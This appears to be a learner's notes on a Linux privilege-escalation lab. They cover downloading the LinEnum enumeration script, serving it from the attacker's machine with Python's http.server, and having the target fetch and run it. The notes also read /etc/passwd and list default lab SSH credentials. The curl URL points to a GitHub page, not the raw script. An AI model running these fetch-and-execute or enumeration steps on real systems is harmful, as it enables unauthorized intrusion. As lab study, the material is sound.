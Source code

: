 Common Linux Privesc
####################
:Author: David Boyd
:Date: 2020-06-02
:SSH User: user3
:SSH Password: password

[Task 4] Enumeration
====================

LinEnum
	a bash script that perfoms common commands related to privilege escalation.

	Saves time (allowing more effort to be put toward getting root).

Get LinEnum
-----------

curl -O https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

	- -O, --remote-name

		-O'riginal'-rem'O'te-name.  Writes output to a local file with the same
		name as the original remote name.

Push LinEnum on TM (Target Machine)
-----------------------------------

Steps
~~~~~

1.	Setup Python server on your machine
2.	from TM (target machine), wget your.Machine.IP.addr:port/file.sh
3.	from TM, chmod +x file.sh && run file.sh

Python3
~~~~~~~

http.server    (import http.server)
	this module defines classes for implementing HTTP servers (Web servers).

	-m

Issues
~~~~~~
:Issue: Python2 code is deprecated.
:Tricks: Use the **2to3** utility to convert Python2 prgms to Python3.
:Solution: The *SimpleHTTPServer* module has been merged into the
           *http.server* in Python 3.0

.. code-block :: Python

	python3 -m http.server 8000

	python -m SimpleHTTPServer 8000

The http.server is invoked directly using the *-m* switch of the interpreter
with a port number argument.  **This serves files relative to the currect
directory.**  // Think: -m = "main directory"

Sandbox
~~~~~~~

.. code-block :: Python

	# My machine
	python3 -m http.server 8000

	# TM
	wget my.ip.addr.ess:8000/LinEnum.sh
	chmod +x LinEnum.sh
	./LinEnum.sh


Questions
---------

.. code-block :: Bash

	# What is the target's hostname?
	hostname

	# Look at the output of /etc/passwd,
	# how many "user[x]" are there on the system?
	cat /etc/passwd | grep user[0-9] | cut -d ':' -f1

	# How many available shells are there on the system?
	cat -n /etc/shells

	# What critical file has had it permissions changed to allow some users to
	# write to it?
	### > critical files include /etc/, /var/
	### > permissions change would typically include user groups' changes
	ls -l | grep -E "\-[rwx-]{4}w]"

